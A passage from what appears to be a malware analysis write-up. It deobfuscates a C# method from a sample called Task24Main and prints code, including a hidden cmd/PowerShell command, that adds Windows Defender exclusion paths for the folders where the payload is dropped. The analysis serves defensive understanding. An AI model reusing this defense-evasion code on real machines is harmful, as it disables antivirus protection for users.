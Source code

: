 `SecOff()` however is a bit more interesting. Repeating our process of manually deobfuscating, the method looks like:

```cs
public static void SecOff()
{
    // This method disables windows defender by adding Exclusion Paths to the Desktop, C:\ProgramData\Dllhost & C:\ProgramData\SystemData
    try
    {
        string cipherText = <Module>.smethod_4<string>(3824795621u);

        /*
        Process.Start(new ProcessStartInfo("cmd.exe")
        {
            Arguments = @"/C chcp 1251 & powershell -Command Add-MpPreference -ExclusionPath ""$ENV:USERPROFILE\Desktop"" & powershell -Command Add-MpPreference -ExclusionPath ""C:\ProgramData\Dllhost"" & powershell -Command Add-MpPreference -ExclusionPath ""C:\ProgramData\SystemData"""
            UseShellExecute = false,
            CreateNoWindow = true,
            WindowStyle = ProcessWindowStyle.Hidden,
        });
        */
        Process.Start(new ProcessStartInfo(<Module>.smethod_2<string>(2128481835u))
        {
            Arguments = Crypter.Decrypt(cipherText, <Module>.smethod_3<string>(2347860797u)),
            UseShellExecute = false,
            CreateNoWindow = true,
            WindowStyle = ProcessWindowStyle.Hidden,
            Verb = <Module>.smethod_5<string>(3146165981u)
        });
        Thread.Sleep(3000);
    }
    catch
    {
    }
}
```

This would explain the chcp command & powershell processes. The `Add-MpPreference -ExclusionPath` command adds an exclusion path to windows defender. This is done to all of the directories that Task24Main drops its payload too (more on that later).

![](defender-killed.png)
